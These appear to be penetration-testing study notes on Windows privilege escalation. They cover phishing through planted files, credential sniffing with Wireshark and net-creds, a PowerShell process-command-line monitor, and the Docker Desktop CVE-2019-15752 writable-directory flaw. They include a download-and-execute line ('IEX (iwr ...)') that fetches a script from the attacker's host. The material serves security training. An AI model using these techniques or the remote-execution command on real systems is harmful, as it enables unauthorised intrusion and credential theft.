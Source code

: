 # Additional Techniques

In this section will cover:
- Interacting with Users (Phishing)
- Pillaging
- Miscellaneous Techniques

## Interacting with Users 

Users are sometimes the weakest link in an organization. An overloaded employee working quickly may not notice something is "off" on their machine when browsing a shared drive, clicking on a link, or running a file. Once we have exhausted all options, we can look at specific techniques to steal credentials from an unsuspecting user by sniffing their network traffic/local commands or attacking a known vulnerable service requiring user interaction. One of my favorite techniques is placing malicious files around heavily accessed file shares in an attempt to retrieve user password hashes to crack offline later.

**Traffic Capture**

If Wireshark is installed, unprivileged users may be able to capture network traffic, as the option to restrict Npcap driver access to Administrators only is not enabled by default. Here we can see a rough example of capturing cleartext FTP credentials entered by another user while signed into the same box. While not highly likely, if Wireshark is installed on a box that we land on, it is worth attempting a traffic capture to see what we can pick up.

The tool net-creds can be run from our attack box to sniff passwords and hashes from a live interface or a pcap file. It is worth letting this tool run in the background during an assessment or running it against a pcap to see if we can extract any credentials useful for privilege escalation or lateral movement.

**Process Command Lines**

````
# Monitoring for Process Command Lines

while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}

# Running Monitor Script on Target Host
> IEX (iwr 'http://<Our_IP>/procmon.ps1')
````

**Vulnerable Services**

We may also encounter situations where we land on a host running a vulnerable application that can be used to elevate privileges through user interaction. CVE-2019–15752 is a great example of this. This was a vulnerability in Docker Desktop Community Edition before 2.1.0.1. When this particular version of Docker starts, it looks for several different files, including docker-credential-wincred.exe, docker-credential-wincred.bat, etc., which do not exist with a Docker installation. The program looks for these files in the C:\PROGRAMDATA\DockerDesktop\version-bin\. This directory was misconfigured to allow full write access to the BUILTIN\Users group, meaning that any authenticated user on the system could write a file into it (such as a malicious executable).
